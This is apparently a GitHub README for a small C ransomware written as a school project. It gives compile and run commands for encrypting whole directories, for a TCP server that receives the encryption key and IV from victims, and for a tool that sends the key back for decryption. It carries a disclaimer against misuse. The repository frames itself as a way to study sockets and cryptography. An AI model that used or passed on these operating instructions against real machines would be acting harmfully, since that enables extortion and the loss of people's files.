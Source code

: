 # CRansomware
A little Ransomware made in C for a school project.

Please do not use it as a virus. It is not made for this purpose. The aim of this project is studying how sockets and crypto work with C (memory aswell).

# How to Use

You need to compilate the ransom.c

/!\ The IP and the port of the remote server (that will receive the key and the IV is hard coded). /!\

On the Client
```
gcc -o ransom ransom.c ransomlib.c -lcrypto
```

if the compilation fails, you can try to use this command to fix it
```
sudo apt install libssl-dev
```

On the remote server

You compilate the TCP.C (It will allow you to get the key and IV)
```
gcc TCP.c -o TCP
```

usage of the compilated Binary

```
./TCP <IP> <PORT>
```

/!\ If the TCP server is not running, you won't be able to encrypt files /!\

# Run the Ransomware on the client

To encrypt a whole directory

```
./ransom <path> encrypt
```

To decrypt

```
./ransom <path> decrypt <key> <IV>
```

# Sendback

The send back is used to send back the key and the IV to the client (that will have the TCP scipt compilated on it).

Compilate it 
```
gcc sendback.c -o sendback
```
Run it.
```
./sendback <ip> <port> <key> <IV>
```
